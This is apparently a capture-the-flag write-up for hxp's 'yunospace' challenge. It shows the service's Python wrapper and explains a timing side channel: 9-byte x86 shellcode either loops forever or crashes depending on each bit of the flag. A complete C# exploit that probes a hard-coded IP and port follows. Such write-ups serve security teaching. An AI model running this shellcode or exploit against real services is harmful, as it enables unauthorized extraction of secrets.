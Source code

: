 # yunospace

When you connect to the service, the python wrapper reads a number number from you and passes the n-th char of the flag to the yunospace binary:

```python
#!/usr/bin/python3 -u

import sys, os, base64

FLAG = "hxp{find_the_flag_on_the_server_here}"

print(" y-u-no-sp                ")
print("XXXXXXXXx.a               ")
print("OOOOOOOOO|                ")
print("OOOOOOOOO| c              ")
print("OOOOOOOOO|                ")
print("OOOOOOOOO|                ")
print("OOOOOOOOO| e              ")
print("~~~~~~~|\~~~~~~~\o/~~~~~~~")
print("   }=:___'>             \n")

print("> Welcome. Which byte should we prepare for you today?")

try:
    n = int(sys.stdin.readline())
except:
    print("> I did not get what you mean, sorry.")
    sys.exit(-1)

if n >= len(FLAG):
    print("> That's beyond my capabilities. Goodbye.")
    sys.exit(-1)

print("> Ok. Now your shellcode, please.")

os.execve("./yunospace", ["./yunospace", FLAG[n]], dict())
```

The yunospace binary was small and simple: All it did was reading 9 bytes from stdin, writing the passed char behind the 9 read bytes, setting all registers to 0, and jumping there.

Since 9 bytes are (as far as we know) not enough to spawn a shell or to execute a write syscall with the appropriate parameters, we decided to use a side channel attack: Depending on the passed char our bytecode has to terminate (and a segfault is a termination), or loop forever. A quick test shows us that if the program segfaults the socket is closed after <2s, and if it loops the socket is closed after >2s.


An infinite loop depending on a flag takes up two bytes:
```
74 fe                   je     7 <loop> 
```
So we have 7 bytes remaining to set a flag depending on the 10th byte and the operation. `test` seems like the best idea (`test` performs a binary `AND` on two operands, and upates `ZF`), because we can identify the byte with 8 requests: By testing the unknown byte with 1 << x (for x in {0, .., 7}) we get a set zero flag if and only if the x-th bit of the byte is set to zero! :tada:

So the exploit is quite simple. Send these bytes, and observe whether the bits of X are set:
```
0:  f6 05 02 00 00 00 X    test   BYTE PTR [rip+0x2], X       # 9 <loop+0x2>
0000000000000007 <loop>:
7:  74 fe                   je     7 <loop> 
```

After experiencing problems with pwntools and closed sockets, I had enough and wrote our exploit in c#:
```c#
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.IO;
using System.Net;
using System.Net.Sockets;
using System.Text;
using System.Threading.Tasks;

namespace yunospace
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("Hello World!");
            
            for (int i=0;i<100;i++)
            {
                char c = GetChar(i);
                Console.Write($"{c}");
                Console.Out.Flush();
                if (c == '}')
                {
                    break;
                }
            }
            Console.WriteLine("\ndone.");
            Console.ReadKey();
        }

        static char GetChar(int count)
        {
            var tasks = new List<Task<long>>();
            for (int i = 0; i < 8; i++)
            {
                var x = i;
                tasks.Add(Task.Run(async () =>
                {
                    return await Test(x, count);
                }));
            }
            byte b = 0;
            Task.WhenAll(tasks).Wait();
            for (int i = 0; i < tasks.Count; i++)
            {
                if (tasks[i].Result < 2000)
                    b |= (byte)(0x1 << i);
            }
            return (char)b;
        }

        static async Task<long> Test(int one, int count)
        {
            Stopwatch stopWatch = new Stopwatch();
            try
            {
                byte[] buf = new byte[4048];
                TcpClient client = new TcpClient("195.201.127.119", 8664);
                using (StreamReader sr = new StreamReader(client.GetStream()))
                {
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);

                    client.GetStream().Write(Encoding.ASCII.GetBytes($"{count}\n"));
                    await ReadOrThrow(sr);

                    stopWatch.Start();
                    byte b = 0x01;
                    b <<= one;
                    client.GetStream().Write(new byte[] { 0xF6, 0x05, 0x02, 0x00, 0x00, 0x00, b, 0x74, 0xFE });
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                    await ReadOrThrow(sr);
                }
            }
            catch (Exception e)
            {
            }
            stopWatch.Stop();
            return stopWatch.ElapsedMilliseconds;
        }

        static async Task ReadOrThrow(StreamReader sr)
        {
            var line =  await sr.ReadLineAsync();
            if (line == null)
                throw new IOException();
        }
    }
}
```

